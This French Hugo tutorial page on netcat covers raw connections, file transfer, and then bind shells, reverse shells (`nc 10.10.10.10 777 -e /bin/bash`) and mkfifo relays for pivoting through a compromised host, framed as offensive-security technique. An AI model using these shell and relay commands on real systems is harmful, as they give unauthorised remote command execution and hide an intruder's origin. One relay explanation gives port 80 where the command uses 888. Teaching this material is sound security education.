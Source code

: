 +++
title = 'Netcat'
date = 2024-07-11T10:52:34-04:00
draft = false
weight = 15
+++

Parfois on souhaite établir une connexion avec un hôte mais sans utiliser le protocole _ssh_. L'utilitaire _netcat_ (ou `nc`) permet une assez grande flexibilité à cette fin: en effet il ne fait qu'ouvrir une connexion TCP "brute" sur l'hôte; on peut ensuite utiliser cette connexion comme on le souhaite. 

##### Ouvrir une connexion sur un port TCP distant

Pour établir une connexion TCP avec un hôte distant il s'agit de lancer `nc` suivi de l'adresse et du port de destination; ensuite ce qui est saisi sur la ligne de commande sera transmis à l'hôte distant. Ainsi pour se connecter sur un serveur HTTP on procède comme suit:

```
└─$ nc 10.30.242.10 80
```

##### Ouvrir un port local

À l'inverse, on peut vouloir recevoir une connexion étable par un hôte distant. Dans ce cas on doit ouvrir un port local avec `nc`; tous les messages envoyés par cet hôte s'afficheront sur la ligne de commande. Les options suivantes sont utilisées:
+ `-l` : Lancer _netcat_ en mode "écoute" 
+ `-p` : Spécifie le port qu'on souhaite ouvrir 

Par exemple pour ouvrir le port TCP 4433 en attente d'une connexion entrante:
```
└─$ nc -lp 4433
```

##### Connexion _client-serveur_

Deux hôtes qui exécutent _netcat_ (un en mode direct et l'autre en mode "écoute") peuvent ainsi se transmettre des informations à partir de la ligne de commande. Par exemple, si vous lancez les commandes suivantes sur deux hôtes (où 10.0.0.10 est l'adresse IP de l'hôte distant):

**Hôte distant:**
``` 
pc23:~# nc -lp 1234
```
**Hôte local:**
```
└─$ nc 10.0.0.10 1234
```
Toute ce que sera ensuite saisi sur la ligne de commande d'un hôte sera affichée sur celle de l'autre.


##### Transférer des fichiers

On peut combiner la commande `nc` avec la redirection de fichiers: par exemple, si on établit une connexion client-serveur entre deux hôtes et que, du côté serveur (celui en mode "écoute"), on redirige vers un fichier, toutes les données reçues sur le serveur seront écrites dans un fichier plutôt que de s'afficher à la ligne de commande:

**Hôte distant:**
``` 
pc23:~# nc -lp 1234 > donnees-recues.txt
```
À l'inverse, pour transférer un fichier il suffit d'utiliser l'opérateur **<** pour lire dans un fichier ce qui sera envoyé à partir du client, comme suit:

**Hôte local:**
```
└─$ nc 10.0.0.10 1234 < donnees-envoyees.txt
```

##### _Shells_ liés

Il est possible de lier à un programme exécutable les données reçues côté serveur en utilisant l'option **-e**: celles-ci seront donc redirigées vers ce programme qui pourra les utiliser. L'utilisation la plus courante de cette fonctionnalité est de lier un interpréteur de commandes, comme par exemple _bash_; ceci permet d'utiliser la connexion comme un _shell_ distant:

**Hôte distant:**
``` 
pc23:~# nc -lp 1234 -e /bin/bash
```
**Hôte local:**
```
└─$ nc 10.0.0.10 1234                                              
hostname
mod3
whoami
root
```

{{% notice tip "Attention" %}}
En raison du risque de sécurité associé à l'utilisation de l'option **-e**, la plupart des versions de _netcat_ ne permettent pas de l'utiliser (même avec _sudo_).
{{% /notice %}}

##### _Shells_ inversés

Les _shells_ inversés sont très utiles dans un contexte de sécurité offensive. En effet, souvent les hôtes "cibles" sur lesquels on cherche à se connecter sont derrière un pare-feu; il n'est donc pas possible d'ouvrir des connexions sur n'importe quel port, comme on le faisait dans les exemples précédents. Cependant, les pare-feux autorisent généralement les connexions sortantes vers n'importe quel port. Il s'agit donc d'établir une connexion liée à un _shell_ comme vu plus haut, mais dont l'origine est la cible: c'est celle-ci qui tente de se connecter vers l'attaquant.

Lorsqu'on obtient la possibilité d'exécuter des programmes sur une cible (généralement suite à l'exploitation d'une vulnérabilité), même avec des privilèges limités, il peut être possible de lancer une connexion de ce type. On inverse simplement les rôles du client et du serveur entre l'attaquant et la cible:

**Hôte distant:**
``` 
pc23:~# nc 10.10.10.10 777 -e /bin/bash
```
**Hôte local:**
```
└─$ nc -lp 777                                              
```

##### Relais

On peut aussi utiliser _netcat_ pour dissimuler l'origine des messages qu'on envoie, ou encore utiliser un hôte compromis pour rejoindre des hôtes qui ne sont pas directement accessibles. On utilise pour ce faire un "relais".

Le principe est plutôt simple: Il s'agit de lancer deux instances de _netcat_: la première écoute les données entrantes sur un port; on redirige la sortie de cette commande vers la deuxième instance de _netcat_ qui enverra ces données à la destination de notre choix.  

La commande requiert cependant d'utiliser `mkfifo` pour créer un _canal nommé_, ("named pipe"), qui est un type spécial de fichier dont l'utilité est de servir de canal de communication entre des programmes ou processus. On relie ensuite ce fichier à l'entrée (0) et à la sortie (1) standard avec les redirecteurs appropriés. 

Les commandes pour créer un relais sont les suivantes:

**Hôte ciblé**
```
victime:~# nc -lvnp 888 -e /bin/bash
``` 
**Hôte pivot/relais (10.0.0.10):**
```
relais:~# mkfifo redirect
relais:~# nc -lk -p 5000 0<redirect | nc 10.11.11.11 888 1>redirect
```
**Hôte local:**
```
└─$ nc 10.0.0.10 5000
```
Sur l'hôte distant, ce qui entre au port 5000 est redirigé vers le port 80 de **10.11.11.11**. Lorsque l'attaquant accède à **10.0.0.10:5000**, il communique en réalité avec **10.11.11.11:888**.


### Pour aller plus loin

+ https://reznok.com/netcat-tunneling-magic/
+ https://shadowslayerqwerty.medium.com/creating-a-netcat-reverse-shell-without-e-89b45134de99


